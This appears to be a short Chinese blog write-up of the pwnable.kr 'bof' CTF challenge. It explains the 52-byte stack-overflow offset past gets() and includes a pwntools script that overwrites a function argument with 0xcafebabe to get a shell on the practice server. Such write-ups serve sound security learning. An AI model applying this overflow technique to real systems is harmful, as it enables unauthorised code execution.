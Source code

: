 ```yaml
---
layout: post
---
```

简单的栈溢出

![image](https://user-images.githubusercontent.com/98165037/224341704-86cc9f19-e4ae-4aec-b2e5-da5f0b9958d4.png)

开了canary但好像没有关系

![image](https://user-images.githubusercontent.com/98165037/224342489-6b160a1a-df09-4004-9588-e0bba2817c91.png)

gets函数可以溢出

![image](https://user-images.githubusercontent.com/98165037/224342133-6ecc0eab-c145-4013-8c8f-4a259f263442.png)

可以看到我们从ebp+s的地方开始输入，要覆盖的地址为ebp+atg_0的地方

![image](https://user-images.githubusercontent.com/98165037/224342737-19c27300-7a96-4843-b1c3-882487865ec5.png)

由图可知s即-2Ch处，arg_0是+08h处，那么[ebp+s]和[ebp+arg_0]就相差52个字节，也就是覆盖52个a即可

但莫名打不通，后来发现我用的是send，gets函数要读到换行符才停止，换成sendline就能打通了

exp:
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
#p = process("./bof")
p = remote('pwnable.kr',9000)
#gdb.attach(p)
#sleep(25)
p.sendline(b'a'*52+p32(0xcafebabe))
p.interactive()
```
